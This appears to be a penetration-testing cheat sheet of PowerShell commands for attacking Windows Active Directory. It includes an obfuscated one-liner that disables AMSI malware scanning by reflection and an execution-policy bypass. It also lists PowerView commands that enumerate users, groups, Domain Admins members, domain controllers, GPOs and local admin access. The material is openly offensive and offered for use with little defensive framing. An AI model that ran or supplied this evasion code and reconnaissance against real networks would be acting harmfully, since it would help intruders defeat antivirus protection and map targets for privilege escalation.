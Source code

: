## Quick Tips

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS> Get-ADUser -identity j.smith -properties *

# Amsi bypass
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# Powershell Execution policy Bypass
powershell -ep bypass

# To input the output of the first command into second command use this powershell technique
# %{} is an alias for ForEach-Object{}
# ?{} is an alias for Where-Object{}
# $_ is variable
<First command> | %{<Second command> -<argument> $_}

# To filter out an object type we can use this technique with pipe.
?{$_.<object> -eq '<value>’'}

# Find local admin access
Find-LocalAdminAccess

# Know if a user is local administrator on Windows
net group /domain and net localgroup /domain
or, just crackmapexec

# Get Domain sid
Get-DomainSID
Arguments -Domain “domain name”

# Get DC
Get-NetDomainController
Arguments -Domain “domain name”

# Get users in current domain
Get-NetUser
Arguments -UserName “username”

# Get user properties
Get-UserProperty
Arguments -Properties pwdlastset

# Search for a particular string in a user's attributes
Find-UserField -SearchField Description -SearchTerm "built"

# Get all computers
Get-NetComputer -FullData
Many arguments -OperatingSystem -Ping -FullData

# Get groups
Get-NetGroup
Arguments -FullData -Domain

# Get members of a particular group
Get-NetGroupMember -GroupName "Domain Admins"

# Group Policies
Get-NetGPO Get-NetGPO -ComputerName Get-NetGPOGroup
```